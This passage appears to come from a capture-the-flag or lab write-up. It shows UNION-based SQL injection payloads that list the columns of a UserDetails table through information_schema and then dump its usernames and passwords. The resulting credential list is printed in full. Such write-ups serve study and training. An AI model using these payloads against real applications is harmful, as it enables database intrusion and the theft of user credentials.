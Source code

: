 ![](/assets/obsidian/e1cf5696f0b53c2a242ee627525c41ab.png)

Get columns of table `UserDetails`

```sql
' union all select 1,2,3,4,5.6,group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'users' and table_name = 'UserDetails'; -- -
```

![](/assets/obsidian/aace12cb1c6eeeeebe3586b69ab9c9d4.png)

Get data from table `UserDetails`

```sql
' union all select 1,2,3,4,5.6,group_concat(username,":",password,"|") FROM users.UserDetails; -- -
```

```
marym:3kfs86sfd|,julied:468sfdfsd2|,fredf:4sfd87sfd1|,barneyr:RocksOff|,tomc:TC&TheBoyz|,jerrym:B8m#48sd|,wilmaf:Pebbles|,bettyr:BamBam01|,chandlerb:UrAG0D!|,joeyt:Passw0rd|,rachelg:yN72#dsd|,rossg:ILoveRachel|,monicag:3248dsds7s|,phoebeb:smellycats|,scoots:YR3BVxxxw87|,janitor:Ilovepeepee|,janitor2:Hawaii-Five-0|
```
